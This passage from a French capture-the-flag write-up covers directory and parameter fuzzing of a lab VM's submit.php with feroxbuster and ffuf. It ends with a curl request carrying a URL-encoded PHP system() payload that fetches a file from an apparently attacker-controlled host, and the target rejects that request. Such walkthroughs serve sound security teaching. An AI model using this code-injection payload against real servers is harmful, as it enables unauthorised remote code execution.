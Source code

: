 ```shellsession
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        1l        4w        0c http://192.168.57.5:8088/submit.php
200       18l       46w      383c http://192.168.57.5:8088/50x.html
[####################] - 10s    37034/37034   0s      found:2       errors:0      
[####################] - 9s     37034/37034   3708/s  http://192.168.57.5:8088/
```

Ce script `submit.php` affiche le message *No data to process*. Essayons de lui donner matière à travailler en brute-forçant des noms de paramètres possibles :

```shellsession
$ ffuf -u "http://192.168.57.5:8088/submit.php" -X POST -d "FUZZ=abcd" -w common_query_parameter_names.txt -fs 19 -H "Content-type: application/x-www-form-urlencoded"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.57.5:8088/submit.php
 :: Wordlist         : FUZZ: common_query_parameter_names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : FUZZ=abcd
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 19
________________________________________________

code                    [Status: 200, Size: 16, Words: 3, Lines: 1, Duration: 26ms]
:: Progress: [5697/5697] :: Job [1/1] :: 1929 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

Effectivement en POST il retourne le message `Sent for review!` si le paramètre `code` est défini. J'ai joué un peu avec `curl` pour essayer d'obtenir un RCE et au boût d'un moment j'ai eu une réponse différente :

```shellsession
$ curl http://192.168.57.5:8088/submit.php -X POST -d 'code=%3C%3Fphp%20system%28%22curl%20http%3A//192.168.57.1/toto.js%22%29%3B%20%3F%3E'
Sorry, due to security precautions, Mike won't review any code containing system() function call.
```
